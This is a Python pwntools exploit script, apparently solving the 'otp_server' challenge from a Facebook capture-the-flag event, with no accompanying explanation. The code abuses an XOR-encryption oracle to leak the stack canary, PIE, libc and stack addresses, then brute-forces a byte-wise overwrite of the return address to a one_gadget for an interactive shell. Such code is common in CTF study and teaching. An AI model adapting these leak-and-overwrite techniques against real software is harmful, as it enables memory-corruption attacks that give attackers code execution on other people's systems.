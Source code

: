 ## exp
```python
from pwn import *
def cmd(n):
	p.sendlineafter(">>> ",str(n))
def key(key):
	cmd(1)
	p.sendafter(":\n",str(key))
def enc(e):
	cmd(2)
	p.sendafter(":\n",str(e))
def fill(offset,data):
	key("\xff"*(0x10+offset)+'\x00')
	i=0
	while(1):
		i+=1
		#print i
		enc("A"*0x100)
		p.readuntil("--\n")
		tmp=p.read(4)
		res=""
		for x in tmp:
			res+=chr(ord(x)^0xff)
		res=u32(res)
		res=res>>24
		if ((res&0xff)==data):
			return	

libc=ELF("/lib/x86_64-linux-gnu/libc-2.27.so")
p=process('./otp_server')
#p=remote("challenges3.fbctf.com",1338)
key("\xff"*0xe0)
enc("A"*0x100)
p.readuntil("--\n")
p.read(0x108)
canary=u64(p.read(8))
pie=u64(p.read(8))-0xdd0
base=u64(p.read(8))-(0x7ffff7a05b97-0x7ffff79e4000)
p.read(8)
stack=u64(p.read(8))
#log.warning(hex(canary))

log.warning(hex(base))
libc.address=base
one=0x10a38c+base
one=0xffffff&one
log.success(hex(one))

fill(3,((one>>16)&0xff))
fill(2,((one>>8)&0xff))
fill(1,(one&0xff))


gdb.attach(p,'''
b *0x555555554dcc
''')

context.log_level='debug'
cmd(3)

p.interactive()
```
